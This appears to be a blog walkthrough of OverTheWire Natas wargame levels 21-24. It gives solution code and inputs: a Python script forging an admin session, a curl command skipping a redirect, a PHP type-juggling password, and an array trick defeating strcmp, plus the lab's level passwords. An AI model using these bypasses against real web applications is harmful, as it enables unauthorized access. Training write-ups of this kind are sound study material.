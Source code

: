 +++
date = '2025-09-09T09:46:55+07:00'
title = 'OverTheWire Natas Walkthrough Levels 21 - 24'
tags = ['OverTheWire', 'CTFs']
description = 'Walkthrough of OverTheWire Natas levels 21 - 24 with step-by-step solutions, hints, and explanations for web security beginners.'
draft = false

[cover]
  image = '/images/posts/natas-cover.png' # path inside /static
  alt = 'Natas cover'
  caption = 'OverTheWire Natas'
  relative = false
+++

The Natas wargame is part of OverTheWire and focuses on web security challenges. This post covers Levels 21 – 24, with hints, answers, and explanations to help you understand the thought process, not just the final solution.

Each level introduces a new vulnerability — from basic HTML inspection to SQL injection, XSS, command injection, file inclusion, and authentication flaws. The goal is to find the password for the next level by analyzing and exploiting the web application.

## Natas Level 21 → Level 22
(Updated: 16 August 2025)

**Credentials**
- **Username:** `natas21`
- **Password:** `BPhv63cKE1lkQl04cE5CuFTzXe15NfiH`

**Connection**

Level url: [http://natas21.natas.labs.overthewire.org/](http://natas21.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - In this level we have 2 sites and in the `experimental` we can do some trick to set `admin=1` because it doesn't check the input.
2. Step 2 - Use my `python` code:
```python
import requests
auth = ("natas21", "BPhv63cKE1lkQl04cE5CuFTzXe15NfiH")

experimenter_url = "http://natas21-experimenter.natas.labs.overthewire.org/"
payload = {"admin": "1", "submit": "Update", "debug": ""} 

r1 = requests.get(experimenter_url, params=payload, auth=auth)
phpsessid = r1.cookies['PHPSESSID']

main_url = "http://natas21.natas.labs.overthewire.org/"
r2 = requests.get(main_url, auth=auth, cookies={"PHPSESSID": phpsessid})

print("\n[✅] Main page output:")
print(r2.text)
```

![Screenshot image](/images/posts/natas_level_21_to_22.png)

3. Step 3 - You can see we get the password in the response.
4. Step 4 - Take the password to the next level.

**Next Level Password**

`d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz`

---

## Natas Level 22 → Level 23
(Updated: 16 August 2025)

**Credentials**
- **Username:** `natas22`
- **Password:** `d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz`

**Connection**

Level url: [http://natas22.natas.labs.overthewire.org/](http://natas22.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - You can see in the source code we just need to add `?revelio` to the URL to get the password.
2. Step 2 - However, there is `Redirect PHP code` in the front:
```php
<?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```

3. Step 3 - We can use `curl` command to do this. Take a look at the `bash` code I created:
```bash
USER="natas22"
PASS="d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz"
URL="http://natas22.natas.labs.overthewire.org"

curl -s -u $USER:$PASS -c - "$URL?revelio"
```
- Run it to get the password:

```bash
bash ./overthewire/code/natas/level_22_to_23.sh

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_natas22.natas.labs.overthewire.org    FALSE   /       FALSE   0       PHPSESSID       olujio4sjoc637s3nd78680l3g
```

4. Step 4 - Take the password to the next level.

**Next Level Password**

`dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs`

---

## Natas Level 23 → Level 24
(Updated: 16 August 2025)

**Credentials**
- **Username:** `natas23`
- **Password:** `dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs`

**Connection**

Level url: [http://natas23.natas.labs.overthewire.org/](http://natas23.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Click `View sourcecode` in order to see the source:
```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

2. Step 2 - It requires us to have `iloveyou` also the `passwd > 10` this is a `php` logic.
- A string is bigger than `10` when it has `11`, `12` at the front

3. Step 3 - Submit `11iloveyou` in the input to get the password.
4. Step 4 - Take the password to the next level.

**Next Level Password**

`MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd`

---

## Natas Level 24 → Level 25
(Updated: 16 August 2025)

**Credentials**
- **Username:** `natas24`
- **Password:** `MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd`

**Connection**

Level url: [http://natas24.natas.labs.overthewire.org/](http://natas24.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Click `View sourcecode` in order to see the source:
```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```
**`strcmp()` has really strange behavior, our target will need it to return `0`**

2. Step 2 - You can access to the `natas24` web by `passwd[]` => `http://natas24.natas.labs.overthewire.org/?passwd%5b%5d` to get the password.
3. Step 3 - Take the password to the next level.

**Next Level Password**

`ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws`